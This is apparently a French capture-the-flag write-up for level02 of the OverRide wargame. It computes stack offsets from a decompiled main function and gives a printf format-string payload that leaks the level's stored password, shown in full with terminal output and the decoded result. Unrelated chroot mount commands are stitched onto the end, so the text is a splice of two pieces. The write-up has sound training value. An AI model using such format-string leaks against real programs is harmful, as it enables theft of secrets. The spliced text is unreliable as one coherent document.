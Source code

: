 ## Solution

Dans le code source on peu constater plusieur point :

un printf mal formater est utiliser, il affiche la variable local_78
la variable local_a8 contient le mot de passe du level3

On va donc essayer d'exploiter printf pour afficher la variable local_a8 :

```
    undefined8 __stdcall main(void)
    undefined8        RAX:8          <RETURN>
    undefined8        Stack[-0x10]:8 local_10                                XREF[5]:     00400889(W), 
    004008ad(W), 
    004008b1(R), 
    004008ed(R), 
    0040097d(R)  
    undefined4        Stack[-0x14]:4 local_14                                XREF[3]:     00400891(W), 
    00400906(W), 
    00400925(R)  
    undefined4        Stack[-0x78]:4 local_78                                XREF[6]:     0040082c(*), 
    00400843(*), 
    004009cd(*), 
    004009de(*), 
    00400a71(*), 
    00400a96(*)  
    undefined1        Stack[-0xa8]:1 local_a8                                XREF[5]:     00400849(*), 
    00400863(*), 
    004008e6(*), 
    00400909(*), 
    00400a51(*)  
    undefined4        Stack[-0x118   local_118                               XREF[5]:     00400869(*), 
    00400883(*), 
    00400a10(*), 
    00400a24(*), 
    00400a4a(*)  
    undefined4        Stack[-0x11c   local_11c                               XREF[1]:     0040081f(W)  
    undefined8        Stack[-0x128   local_128                               XREF[1]:     00400825(W)  
```

Ici local_a8 est a a8 de distance avec le haut de la stack 
a8 = 168 bytes de distance
168 / 8 (ou 4 sur architecture de 32bits) = 21

21 + 5 (les argument de l'appel de printf) = 26

le mot de passe fait fait une taille de 0x29 donc 41 en decimal, ce qui fait 5 print 

### Payload
```
%26$p %25$p %24$p %23$p %22$p
```
```
----------------------------------------------------------------
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %26$p %25$p %24$p %23$p %22$p    
--[ Password: 
*****************************************
0x48336750664b394d 0x354a35686e475873 0x377a7143574e6758 0x45414a3561733951 0x756e505234376848 does not have access!
```

On retire les 0x et les espace :
```
48336750664b394d354a35686e475873377a7143574e675845414a3561733951756e505234376848 -> in ASCII -> H3gPfK9M5J5hnGXs7zqCWNgXEAJ5as9QunPR47hH
```
on inverse et cela donne :
```
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```



mount -v --bind /dev /mnt/uefi.fs/dev
mount -vt devpts devpts -o gid=5,mode=0620 /mnt/uefi.fs/dev/pts
mount -vt proc proc /mnt/uefi.fs/proc
mount -vt sysfs sysfs /mnt/uefi.fs/sys
mount -vt tmpfs tmpfs /mnt/uefi.fs/run
if [ -h /mnt/uefi.fs/dev/shm ]; then
  install -v -d -m 1777 /mnt/uefi.fs$(realpath /dev/shm)
else
  mount -vt tmpfs -o nosuid,nodev tmpfs /mnt/uefi.fs/dev/shm
fi